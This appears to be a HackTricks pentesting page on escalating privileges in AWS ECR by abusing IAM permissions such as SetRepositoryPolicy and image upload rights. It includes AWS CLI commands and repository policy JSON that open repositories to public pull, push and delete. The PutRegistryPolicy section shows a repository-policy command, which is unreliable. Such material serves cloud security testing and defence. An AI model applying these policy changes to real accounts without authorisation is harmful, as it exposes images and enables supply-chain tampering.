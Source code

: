 # AWS - ECR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

{{#ref}}
../aws-post-exploitation/aws-ecr-post-exploitation.md
{{#endref}}

**Potential Impact:** Indirect privesc by intercepting sensitive information in the traffic.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

An attacker with the all those permissions **can login to ECR and upload images**. This can be useful to escalate privileges to other environments where those images are being used.

To learn how to upload a new image/update one, check:

{{#ref}}
../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Like the previous section, but for public repositories.

### `ecr:SetRepositoryPolicy`

An attacker with this permission could **change** the **repository** **policy** to grant himself (or even everyone) **read/write access**.\
For example, in this example read access is given to everyone.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Contents of `my-policy.json`:

```json
{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "allow public pull",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr:BatchCheckLayerAvailability",
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

### `ecr-public:SetRepositoryPolicy`

Like the previoous section, but for public repositories.\
An attacker can **modify the repository policy** of an ECR Public repository to grant unauthorized public access or to escalate their privileges.

```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```

**Potential Impact**: Unauthorized public access to the ECR Public repository, allowing any user to push, pull, or delete images.

### `ecr:PutRegistryPolicy`

An attacker with this permission could **change** the **registry policy** to grant himself, his account (or even everyone) **read/write access**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

{{#include ../../../banners/hacktricks-training.md}}




